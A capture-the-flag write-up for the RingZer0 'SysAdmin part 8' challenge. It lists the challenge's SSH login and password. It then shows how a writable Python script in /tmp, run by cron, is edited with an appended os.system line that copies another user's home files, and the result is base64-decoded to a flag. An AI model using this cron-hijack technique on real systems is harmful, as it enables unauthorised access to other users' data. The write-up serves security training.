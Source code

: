 # SysAdmin part 8

__PROBLEM__

Get access to the cypher account.

User: morpheus
Password: VNZDDLq2x9qXCzVdABbR1HOtz

ssh morpheus@challenges.ringzer0team.com -p 10147

__SOLUTION__

Start with `grep` i.e `grep cypher -R / 2>/dev/null`. You'll see few backup files in the end. Try to cat them and you'll find interesting thing in the `/backup/ca584b15ae397a9ad45b1ff267b55796`

```bash

#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
*/3 * * * * python /tmp/Gathering.py
var/spool/cron/atjobs/0001770000000100000010000000000012303165436014466 5ustar  daemondaemonvar/spool/cron/atjobs/.SEQ0000600000000100000010000000000212303165436015101 0ustar  daemondaemon0
```
There is a cron job running. So now we look in `Gathering.py`

```bash
morpheus@lxc-sysadmin:~$ cat /tmp/Gathering.py
import os
os.system('ps aux > /tmp/28JNvE05KBltE8S7o2xu')
```
Okay so this file is in the `/tmp` directory and since we have the write permission there we can change the content of it.

```bash
morpheus@lxc-sysadmin:~$ echo 'os.system("cat /home/cypher/*.* > /tmp/cypher.log")' >> /tmp/Gathering.py
```
We add a new line in that file which will create a new file called `cypher.log` and that log file will contain all the content of cypher's home directory.

```bash
morpheus@lxc-sysadmin:~$ cat /tmp/Gathering.py
import os
os.system('ps aux > /tmp/28JNvE05KBltE8S7o2xu')
os.system("cat /home/cypher/*.* > /tmp/cypher.log")
morpheus@lxc-sysadmin:~$ cat /tmp/cypher.log
BASE ?
RkxBRy0wY2ZjMzM5MGEwODJhMjJmZGQ3NjNmNDQyNmY0MzI5Ng==
```
Obviously that's base64

```bash
morpheus@lxc-sysadmin:~$ echo "RkxBRy0wY2ZjMzM5MGEwODJhMjJmZGQ3NjNmNDQyNmY0MzI5Ng==" | base64 -d
FLAG-0cfc3390a082a22fdd763f4426f43296morpheus@lxc-sysadmin:~$
```

FLAG - `FLAG-0cfc3390a082a22fdd763f4426f43296`

And with this we come to an end of this great series.

